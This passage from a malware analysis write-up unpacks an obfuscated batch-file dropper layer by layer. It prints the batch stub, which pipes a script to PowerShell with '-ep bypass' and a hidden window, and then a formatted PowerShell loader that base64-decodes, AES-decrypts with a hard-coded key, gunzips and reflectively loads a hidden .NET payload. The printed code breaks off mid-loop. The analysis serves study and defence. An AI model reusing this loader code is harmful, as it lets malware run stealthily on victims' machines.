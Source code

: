 ```bat
};}$LvKNb=[System.IO.File]::('@R@e@a@d@A@l@l@T@e@x@t@'.Replace('@', ''))('%~f0').Split([Environment]::NewLine);foreach ($uzAOr in $LvKNb) {
if ($uzAOr.StartsWith('MROXEN'))
{

$foRxM=$uzAOr.Substring(6);

break;
}}$gIiYE=xHmqd (cabZc ([Convert]::('@F@r@o@m@B@a@s@e@6@4@S@t@r@i@n@g@'.Replace('@', ''))($foRxM)));bfsQm $gIiYE (,[string[]] ('%~f0'));" & echo Invoke-Expression $env:xNSUVcbVfZ; | %systemdrive%\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass -noprofile -windowstyle hidden > nul
cls
exit /b
```

It was very clear this bat file was executing a powershell script, with even more layers of obfuscation.

## Layer 3: The Powershell Script

This script was obfuscated in multiple, smaller ways. The variable and function names were random strings, accesses to some properties were
obfuscated with tons of @ symbols, and it was formatted very poorly. The formatted script looks like this:

```ps1
function cabZc($wDNPY){
    $dpSWX=[System.Security.Cryptography.Aes]::Create();
    $dpSWX.Mode=[System.Security.Cryptography.CipherMode]::CBC;
    $dpSWX.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;
    $dpSWX.Key=[System.Convert]::("FromString")('ywZ4zbvE94p0AjJdsJquIr8OfpJvLV5TpDK8RHDCawA=');
    $dpSWX.IV=[System.Convert]::("FromString")('gWYwrnLwvaEVn5azmkls4A==');
    $duCkl=$dpSWX.CreateDecryptor();
    $return_var=$duCkl.TransformFinalBlock($wDNPY, 0, $wDNPY.Length);
    $duCkl.Dispose();
    $dpSWX.Dispose();
    $return_var;
}
function xHmqd($wDNPY){
    $taHbo=New-Object System.IO.MemoryStream(,$wDNPY);
    $KwYWp=New-Object System.IO.MemoryStream;
    Invoke-Expression '$qFHGG = New-Object System.IO.Compression.GZipStream($taHbo, [IO.Compression.CompressionMode]::Decompress);';
    $qFHGG.CopyTo($KwYWp);
    $qFHGG.Dispose();
    $taHbo.Dispose();
    $KwYWp.Dispose();
    $KwYWp.ToArray();
}
function bfsQm($wDNPY,$LMHlt){
    $tDdAS = @(
    '$Tcpjt = [System.Reflection.Assembly]::Load([byte[]]$wDNPY);',
    '$YkCzb = $Tcpjt.EntryPoint;',
    '$YkCzb.Invoke($null, $LMHlt);'
    );
    foreach ($WjSSe in $tDdAS) {
        Invoke-Expression $WjSSe
    };
}

$LvKNb=[System.IO.File]::('ReadAllText')('%~f0').Split([Environment]::NewLine);

foreach ($uzAOr in $LvKNb) {
    if ($uzAOr.StartsWith('MROXEN'))
```